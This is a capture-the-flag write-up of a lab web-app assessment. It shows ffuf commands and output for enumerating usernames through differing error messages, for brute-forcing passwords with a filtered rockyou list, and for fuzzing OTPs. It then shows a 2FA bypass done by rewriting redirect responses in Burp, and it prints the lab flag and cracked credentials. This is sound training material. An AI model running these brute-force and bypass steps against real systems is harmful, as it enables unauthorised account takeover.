 ```yaml
---
sticker: emoji//1faaa
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215140214.png)

Let's begin by checking the website:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215140227.png)

We have a login functionality, let's check it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215140248.png)

We can begin by registering a new account and checking the behavior in burp:

```ad-note
`test`:`test`
```

If we do those credentials, we get the following:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215140815.png)


Now we know the password policy, it goes like this:

```ad-important
Password does not meet our password policy:
    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long
```

Nice, let's register an account that goes like that:

```ad-note
`test`:`Passw0rd1123`
```

We can now test how it looks like when a valid username goes through the application:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215155348.png)

We get `Invalid credentials`, what if we use an invalid user:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215155424.png)

Now we get another error `Unknown username or password.`, once we know this, we can use ffuf in order to fuzz for valid usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 196ms]
```

We got a valid username:

```
gladys
```

Now, with the valid username, we can try to brute-force the password creating a custom wordlist matching the password policy, let's grep the `rockyou.txt` wordlist:

```
grep -P '^(?=.*[0-9])(?=.*[a-z])(?=.*[A-Z])[A-Za-z0-9]{12}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

This will filter `rockyou` wordlist to match the password policy, now let's use ffuf:


```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200
```


After a while, we get this:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid credentials
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 156ms]
```

We got credentials:

```ad-note
`gladys`:`dWinaldasD13`
```

If we try to log in, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215160432.png)

We are redirected to `/2fa.php`, we need to bypass it, let's do the following:

Let's start by sending a request and checking the behavior:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215160533.png)

If we send an invalid OTP, we get `Invalid OTP` error, knowing this, let's create a list of OTPs and fuzz:

```
seq -w 0 9999 > tokens.txt
```

```
ffuf -w tokens.txt -u http://94.237.55.157:40800/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=k0p7io2i4ucilmknkgt9m2ukd5" -d "otp=FUZZ" -fr "Invalid OTP" -ic -c -t 200
```

After a while, we are unable to get any OTP by fuzzing, which means, this is not the intended path to take, that's when logging into our `test` account is truly helpful, if we log in, we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215164723.png)

We are redirected to `/profile.php` instead of `/2fa.php`, that means that if we're able to change the `Location` to `/profile.php` on glady's account, we'd be able to bypass the 2fa code requirement, let's do it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215164842.png)

`Do intercept -> Response to this request`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215164923.png)

Now, change `Location` to `/profile.php`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215165100.png)

Forward and `Do intercept -> Response to this request` again:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215165141.png)

We get a GET request, we need to intercept this one too and change status code to `200` and `location` to `/profile.php` again:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215165225.png)

After forwarding the request, this happens:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215165242.png)

We get access to glady's account and got the flag:

```
HTB{d86115e037388d0fa29280b737fd9171} 
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250215165319.png)


